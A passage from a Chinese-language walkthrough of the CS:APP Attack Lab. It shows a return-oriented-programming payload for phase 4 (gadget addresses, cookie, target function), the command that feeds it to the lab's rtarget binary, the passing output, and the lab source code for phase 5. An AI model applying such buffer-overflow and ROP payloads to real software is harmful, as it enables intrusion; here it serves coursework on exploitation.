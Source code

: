 结合上述两个 gadgets，添加 `touch2` 函数地址和 cookie 的值组成攻击载荷：

```text
/* phase4.txt */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
9c 1e 40 00 00 00 00 00 /* Gadget 1 */
66 ce c8 24 00 00 00 00 /* cookie value */
87 1e 40 00 00 00 00 00 /* Gadget 2 */
f5 1b 40 00 00 00 00 00 /* Address of touch2 function */
```

转换为原始字节序列并传递给 `rtarget` 程序：

```bash
cat phase4.txt | ./hex2raw | ./rtarget
```

```text
Cookie: 0x24c8ce66
Type string:Touch2!: You called touch2(0x24c8ce66)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

# Phase 5

在 phase 4 中，我们需要针对 `rtarget` 程序实现 ROP 攻击。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
